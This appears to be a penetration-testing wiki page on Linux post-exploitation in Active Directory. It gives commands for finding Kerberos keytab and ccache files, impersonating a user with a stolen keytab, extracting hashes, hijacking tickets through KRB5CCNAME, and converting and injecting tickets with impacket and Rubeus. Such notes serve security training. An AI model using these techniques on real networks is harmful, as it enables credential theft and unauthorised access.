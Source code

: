 ```yaml
---
description: >-
  The only difference from Post-Exploitation in #Pentesting is that here we
  would use only AD-related  PE vectors which is executed in Linux OS.
---
```


# Linux Post-Exploitation

**Linux** computers can connect to **Active Directory**, though it's a **Microsoft** technology. Also it's not required for **Linux** machine to be connected to **AD** to use **Kerberos** tickets.

## Checking Linux and AD relations

### realm

```bash
realm list
```

### PS

<pre class="language-bash"><code class="lang-bash"><strong>ps -ef | grep -i "winbind\|sssd"
</strong></code></pre>

## Finding Kerberos Tickets

Finding tickets is very important part of Active Directory exploitation and post-exploitation. For a beginning, tickets in Linux are usually located here:

* **keytab files** - commonly allow scripts to authenticate automatically using Kerberos without human interaction or access to a password stored in a plain text file
* **ccache files** - **c**redential **c**ache is stored in <mark style="color:green;">**/tmp**</mark> directory&#x20;
* <mark style="color:green;">**`KRB5CCNAME`**</mark> - environment variable

### Crontab

```bash
crontab -l
```

### Keytab Files

```bash
find / -name *keytab* -ls 2>/dev/null
```

### Ccache

```bash
env | grep -i krb5
ls -la /tmp
```

## Abusing Keytab

### Impersonate user

```bash
klist -k -t #list keytab file info
kinit carni7@AMOGUS.KEK -k -t /opt/kerbusers/carni7.keytab #impersonation carni7 using his keytab
```

### **KeyTabExtract**

[**\[LINK\]**](https://github.com/sosdave/KeyTabExtract) This is tool which is extracting **Kerberos** hashes from **keytab** file.

```python
python3 /opt/keytabextract.py /opt/specialfiles/carni7.keytab 
```

## Abusing ccache

For using **ccache** files you need to have root privileges

### Checking group privileges

```bash
id carni7@amogus.kek
```

Now after locating right non-expired **Kerberos** ticket, we could import **ccache** file into our session by changing value of <mark style="color:green;">**`KRB5CCNAME`**</mark> env and checking tickets with <mark style="color:red;">**klist.**</mark>

```bash
cp /tmp/krb5cc_768304578_BRB541 .
export KRB5CCNAME=/root/krb5cc_768304578_BRB541
klist
Ticket cache: FILE:/root/krb5cc_768304578_BRB541
```

If the result is the same, we could be sure that now **Kerberos** is using our ticket.

## Ticket Converter

```bash
impacket-ticketConverter krb5cc_768304578_BRB541 carni7.kirbi
```

#### Importing Kerberos Ticket

```powershell
C:\Rubeus.exe ptt /ticket:c:\carni7.kirbi
```
